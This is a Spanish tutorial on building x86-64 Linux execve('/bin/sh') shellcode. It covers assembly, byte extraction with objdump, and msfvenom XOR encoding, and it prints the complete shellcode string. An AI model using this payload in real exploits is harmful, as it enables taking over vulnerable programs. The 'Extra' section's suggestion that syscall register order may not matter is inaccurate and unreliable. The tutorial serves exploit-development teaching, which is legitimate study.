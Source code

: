 ## Bin/bash shellcode

El shellcode es una cadena de bytes en código máquina directamente ejecutado en la CPU.
Se suele introducir en el stack (parte de la memoria de un programa) mediante alguna falla de buffer overflow.

Para el shellcode, entramos en lo que se llama "Modo kernel" gracias a un tipo de funciones llamado "syscalls" que le dan el control 
del sistema al kernel durante la ejecución para hacer operaciónes mas privilegiadas. Estas funciones syscall como write() son en las que se 
basan las funciones de c como printf() al compilarse.

Hay un archivo en Linux bajo la ruta `/usr/include/x86_64-linux-gnu/asm/unistd_64.h` (en este caso 64 bits) donde están los indices de las funciones.
En este caso usaremos el 59 que es sys_execv. (Ej el 1 es write y el 60 es exit)

-----------------------

La programación en código máquina se basa en pasarle al registro rax el índice de la funcion syscall que queremos (en nuestro caso 59 para execv)
y en los registros rdi, rsi y rdx (por orden), los argumentos de esta función.

Si miramos el [manual de Linux](https://man7.org/linux/man-pages/man2/execve.2.html) vemos que execve nos pide tres argumentos:
`int execve(const char *pathname, char *const argv[], char *const envp[]);`
- **Path del binario a ejecutar** en este caso /bin/sh, que redondearemos a 8 bytes quedando /bin//sh (igualmente funcional), esto ira a RDI.
- **Argumentos**, en este caso no tenemos, sino que hay que poner la direccion del binario. A RSI
- **Variables de entorno**: no tenemos asi que sera "0". A RDX

Tanto lo que va en rdi como en rsi, como son cadenas de texto, hay que acabarlas en nulls (Ceros basicamente)
Es decir `execve(/bin/sh0x0, &/bin/sh, 0x000000000000000}`
Lo que haremos es meter esos argumentos en la memoria (rsp) y luego pasarlo de ahi a los registros.

-------------------------

Para pasar el "/bin//bash", hay que pasarlo a hexadecimal. Eso se puede hacer facilmente con Python:
`"0x" + "/bin//sh"[::-1].encode("utf-8").hex() -> 0x68732f2f6e69622f `

Codigo en assembly:
```asm
global _start 
section .text
_start:
    xor rax, rax        ; primer null , rax=0 ; de RAX sacamos los Ceros
    push rax            ; rsp = 0x000000000000000. 

    mov rbx, 0x68732f2f6e69622f  ; /bin//sh (8 bytes, o sea, alineado)
    push rbx                     ; rsp:  0x68732f2f6e69622f    0x000000000000000. -> Ahora la pila tiene el primer argumento (/bin//sh, 0x0)
    mov rdi, rsp                 ; rdi 0x68732f2f6e69622f /bin//sh -> Esto de la pila lo metemos en rdi como primer argumento

    push rax                ;    otro null; rsp  0x000000000000000  0x68732f2f6e69622f   0x000000000000000
    mov rdx, rsp            ;    rdx = 0x000000000000000 (Tercer argumento)

    push rdi          ;  dirección de /bin/sh en la pila ->  rsp 0x00007fffffffdeb0  0x000000000000000 0x68732f2f6e69622f  0x000000000000000
    mov rsi, rsp      ; rsi -> 0x7fffffffdea0  (0x68732f2f6e69622f en el stack)

    add rax, 59       ;  Llamamos a execve
    syscall           ; lo ejecutamos
```
Para que entendamos como está puesto todo:  
- La pila  
```
| rsp   |    0x7fffffffdea0  | 0x7fffffffdea8     | 0x7fffffffdeb0               |    0x7fffffffdeb8 |
| ---   | ------------------ | ------------------ | ---------------------------- | ----------------- |
| valor | 0x00007fffffffdeb0 |  0x000000000000000 | 0x68732f2f6e69622f (/bin//sh)| 0x000000000000000 | 
```
- Los registros:
```
  ; $rdi   : 0x007fffffffdeb0  →  "/bin//sh",0x0
  ; $rsi   : 0x007fffffffdea0  →  0x007fffffffdeb0  →  "/bin//sh"
  ; $rdx   : 0x007fffffffdea8  →  0x0000000000000000
```

------------------

Compilamos esto a un objeto y lo pasamos a una cadena de bytes.
```bash
└─$ nasm -f elf64 execv.asm -o execv.o
└─$ ld execv.o -o execv
└─$ ./execv
$ whoami
cucuxii
```

```bash
└─$ for i in $(objdump -d execv.o -M intel | grep "^ " | cut -f2); do echo -n "\\\x$i"; done                  
\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05
└─$ echo -ne "\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05" | msfvenom -f elf -e x64/xor -a x64 --platform linux > demo
└─$ ./demo
$ whoami
cucuxii
```
--------------------

## Extra: Otra version que funciona

Esto lo meto para ver que pueden haber muchas versiones de lo mismo...
```asm
global _start 
section .text

_start:
    xor rax, rax 
    push rax                    ; Colocar NULL en la pila
    
    mov rbx, 0x68732f2f6e69622f ; rbx = /bin//sh
    push rbx                    ; Meter "/bin//sh" en la pila
    mov rdi, rsp                ; Colocar "/bin//sh" en rdi
    
    push rax                    ; Colocar NULL en la pila
    mov rsi, rsp                ; Colocar NULL en RSI
    
    push rdi         ; Colocar el puntero a "/bin//sh" en la pila
    mov rdx, rsp     ; Meter el puntero en rdx
    
    add rax, 59; Cargar el número de la llamada al sistema de execve en rax (59)
    syscall; Realizar la llamada al sistema
```
La diferencia con el anterior esque hemos intercambiado los registros RSI y RDX.
En algunos casos, el orden de los registros puede no ser estrictamente necesario siempre y cuando los argumentos 
correctos se pasen a las ubicaciones correctas de memoria o registros. Esto puede depender del sistema operativo 
y la arquitectura específica en la que se esté ejecutando el código.

Aun asi mejor seguir la convencion estandar -> rdi, rsi, rdx

